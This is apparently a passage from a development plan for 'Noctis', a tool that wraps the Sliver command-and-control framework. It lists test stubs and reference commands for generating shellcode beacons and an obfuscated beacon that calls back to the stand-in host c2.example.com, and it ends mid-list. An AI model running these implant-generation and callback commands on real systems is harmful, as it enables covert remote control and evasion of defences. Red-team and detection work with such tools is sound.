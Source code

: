 ### Integration Tests
```python
# tests/test_sliver_integration.py
def test_sliver_connection()
def test_beacon_generation()
def test_obfuscation_integration()
def test_full_workflow()
```

### Real-World Tests
1. Start Sliver server
2. Generate beacon via API
3. Execute beacon in VM
4. Verify callback to C2
5. Test command execution

---

## Reference Commands

### Sliver Commands
```bash
# Start server
sliver-server

# In Sliver console
generate beacon --http 127.0.0.1:8080 --format shellcode --save /tmp/beacon.bin
```

### Noctis API
```bash
# Test technique query
curl http://localhost:8888/api/techniques

# Generate C2 beacon (future)
curl -X POST http://localhost:8888/api/c2/sliver/generate \
  -H "Content-Type: application/json" \
  -d '{
    "protocol": "https",
    "listener_host": "c2.example.com",
    "techniques": ["NOCTIS-T124", "NOCTIS-T095"],
    "obfuscate": true
  }'
```

---

## Expected Output

By the end of Phase 4, you should be able to:
